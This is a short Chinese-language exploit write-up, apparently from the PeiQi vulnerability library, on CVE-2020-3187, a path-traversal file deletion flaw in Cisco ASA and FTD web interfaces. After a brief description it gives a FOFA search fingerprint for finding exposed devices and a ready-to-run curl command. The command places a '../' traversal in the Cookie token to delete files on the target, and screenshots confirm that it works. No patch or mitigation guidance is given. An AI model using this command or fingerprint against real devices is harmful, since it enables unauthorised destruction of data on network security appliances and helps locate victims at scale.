 ```yaml
---
title: CISCO ASA设备任意文件删除漏洞 CVE-2020-3187
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - Cisco
---
```


# CISCO ASA设备任意文件删除漏洞 CVE-2020-3187

## 漏洞描述

Cisco ASA Software和FTD Software中的Web服务接口存在路径遍历漏洞，该漏洞源于程序没有对HTTP URL进行正确的输入验证。远程攻击者可通过发送带有目录遍历序列的特制HTTP请求利用该漏洞读取并删除系统上的敏感信息。

## 漏洞影响

Cisco ASA设备

![](/img/20210924015500135529.png)

Cisco FTD设备

![](/img/20210924015500321011.png)

## FOFA

> [!NOTE]
>
> /+CSCOE+/
>
> Cisco-ASA

## 漏洞复现

访问 http://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html 存在则可能出现此漏洞

![](/img/20210924015500560980.png)

例如我们删除一张图片  http://xxx.xxx.xxx.xxx/+CSCOU+/csco_logo.gif

![](/img/20210924015500894505.png)

使用 curl 发送请求

```shell
curl -H "Cookie: token=../+CSCOU+/csco_logo.gif" https://xxx.xxx.xxx.xxx/+CSCOE+/session_password.html
```

![](/img/20210924015501127107.png)

成功删除图标